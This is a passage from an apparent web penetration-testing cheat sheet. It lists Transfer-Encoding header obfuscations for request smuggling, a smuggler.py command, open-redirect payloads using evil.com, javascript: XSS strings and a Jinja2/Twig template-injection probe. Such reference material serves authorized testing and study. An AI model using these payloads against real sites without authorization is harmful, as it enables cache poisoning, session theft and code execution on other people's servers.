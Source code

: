 ### TE.TE - Transfer-Encoding X Transfer-Encoding
The frontend and backend support Transfer-Encoding, but it is possible to induce a non-processing on one of the servers through the obfuscating of the header.
e.g.  
```
Transfer-Encoding: xchunked
Transfer-Encoding : chunked
Transfer-Encoding:[tab]chunked
Transfer-Encoding: x
[space]Transfer-Encoding: chunked
Transfer-Encoding[space]: chunked
X: X[\n]Transfer-Encoding: chunked
Transfer-Encoding
: chunked
```
	
### Tool	
```
python3 smuggler.py -u <URL>
```
https://github.com/defparam/smuggler

-> Study  
https://portswigger.net/web-security/request-smuggling  

## Open Redirect
### Use of "@", to redirect to an address after the "@"
```
site.com@evil.com
```

### Parameter Pollution
```
?url=website_whitelist.com&url=site.com
```

### Open Redirect to XSS
e.g.  
```
javascript:alert(1)
";alert(0);//
```

### Nuclei Template
https://raw.githubusercontent.com/projectdiscovery/nuclei-templates/master/vulnerabilities/generic/open-redirect.yaml
	
## Server-Side Template Injection (SSTI)
### Identify
-> Jinja2 or Twig  
```
{{3*3}}
```

